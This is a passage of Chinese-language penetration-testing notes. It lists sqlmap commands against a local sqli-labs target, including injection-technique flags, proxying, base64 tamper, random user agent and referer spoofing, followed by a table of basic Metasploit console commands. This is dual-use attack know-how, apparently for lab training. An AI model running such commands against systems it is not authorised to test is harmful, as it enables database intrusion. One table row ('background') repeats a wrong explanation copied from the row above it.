 ```sh
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --proxy="http://127.0.0.1:8080"    #指定代理
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --technique T    #指定时间延迟注入，这个参数可以指定sqlmap使用的探测技术，默认情况下会测试所有的方式，当然，我们也可以直接手工指定。
支持的探测方式如下：
　　B: Boolean-based blind SQL injection（布尔型注入）
　　E: Error-based SQL injection（报错型注入）
　　U: UNION query SQL injection（可联合查询注入）
　　S: Stacked queries SQL injection（可多语句查询注入）
　　T: Time-based blind SQL injection（基于时间延迟注入）

-v3                   #输出详细度  最大值5 会显示请求包和回复包
--threads 5           #指定线程数
--fresh-queries       #清除缓存
--flush-session       #清空会话，重构注入
--batch               #对所有的交互式的都是默认的
--random-agent        #任意的http头
--tamper base64encode            #对提交的数据进行base64编码
--referer http://www.baidu.com   #伪造referer字段

--keep-alive     保持连接，当出现 [CRITICAL] connection dropped or unknown HTTP status code received. sqlmap is going to retry the request(s) 保错的时候，使用这个参数
```



## MSF

| 命令          | 解释                                                |
| ------------- | --------------------------------------------------- |
| msfconsole    | 命令行模式启动MSF                                   |
| exit          | 退出MSF 控制台终端，退出会话                        |
| use           | 使用某一个模块                                      |
| info          | 查看模块的详细信息                                  |
| set           | 模块选项设置                                        |
| show options  | 查看脚本配置选项                                    |
| run / exploit | 启动脚本                                            |
| search        | 搜索关键字 type:auxiliary path:telnet cve:2018-7600 |
| back          | 退出模块                                            |
| show targets  | 显示适用的主机类型                                  |
| show payloads | 显示适用的payload 类型                              |
| background    | 显示适用的payload 类型                              |
| sessions -i   | 会话管理                                            |
